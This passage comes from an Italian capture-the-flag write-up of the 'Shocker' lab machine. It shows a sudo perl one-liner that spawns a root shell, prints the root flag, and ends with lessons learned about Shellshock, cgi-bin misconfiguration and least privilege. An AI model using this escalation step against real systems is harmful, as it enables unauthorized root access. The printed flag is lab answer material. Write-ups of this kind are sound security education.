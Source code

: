 perl ha un'opzione -e che mi consente di eseguire Perl dalla riga di comando. 
Ha anche un comando exec che eseguirà i comandi della shell. 

Mettendo tutto insieme, posso eseguire bash come root:
```bash
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/bash"'
root@Shocker:/home/shelly# 
```

Flag root:

```bash
root@Shocker:~# cat root.txt 
bc6caad0168dcf317ef739aa79e93bab
```
 
# LEZIONI IMPARATE 

Per quanto riguarda le vulnerabilità, ne ho contate tre. 

1. Il primo è un errore di configurazione insicuro del server web. Non mi è stato permesso di accedere alla directory /cgi-bin ma per qualche motivo mi è stato permesso di accedere al file user.sh all'interno di quella directory. L'amministratore dovrebbe avere accesso limitato a tutti i file nella directory.
2. La seconda vulnerabilità è che il server Web stava eseguendo comandi bash su un sistema che eseguiva una versione di Bash vulnerabile alla vulnerabilità Shellshock. Questo ci ha permesso di ottenere l'accesso iniziale al sistema. Ovviamente è disponibile una patch e l'amministratore dovrebbe aver corretto il suo sistema.
4. La terza vulnerabilità è la configurazione del sistema non sicura. Dovresti sempre conformarti al principio del privilegio minimo e al concetto di separazione dei privilegi. Dare all'utente l'accesso sudo per eseguire perl, ha permesso a me (l'attaccante) di aumentare i privilegi.
